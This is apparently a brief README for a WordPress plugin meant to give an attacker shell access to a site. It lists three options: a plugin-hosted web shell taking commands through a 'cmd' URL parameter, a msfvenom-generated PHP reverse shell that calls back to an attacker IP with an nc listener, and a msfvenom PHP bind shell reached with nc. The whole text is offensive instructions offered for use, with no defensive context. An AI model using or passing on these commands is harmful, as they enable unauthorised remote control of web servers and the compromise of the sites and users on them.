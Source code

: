 # wordpress-reverse-bind-shell

## 1st option
http://server.fun/wordpress/wp-content/plugins/wordpress-reverse-bind-shell/cmd.php?cmd=whoami

## 2nd option
msfvenom -p php/reverse_php -f raw  LHOST=10.11.0.36 LPORT=4444 -o reverse.php

nc -lvnp 4444

## 3rd option
msfvenom -p php/bind_php -f raw LPORT=4444 -o bind.php

nc server.fun 4444

## ToDo
More details...
